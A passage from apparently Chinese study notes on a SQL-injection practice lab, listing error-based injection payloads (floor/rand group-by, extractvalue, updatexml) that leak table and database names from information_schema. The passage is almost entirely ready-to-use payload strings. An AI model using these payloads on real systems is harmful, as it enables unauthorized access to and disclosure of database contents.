 
```
id=1' AND (select 1 from (select count(*),concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a)b) --+
```

```
?id=1' AND (select 1 from (select count(*),concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema=0x7365637572697479 limit 0,1),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a)b) --+
```



方法2：简单高效

利用extractvalue漏洞、updatexml函数

报错注入

```
' and extractvalue(1,concat(0x7e,(select database()),0x7e)) --+

' and updatexml('1',concat('~',(select database())),'1')#
```



![image-20220115091917832](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115091917832.png)



![image-20220115092210082](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115092210082.png)
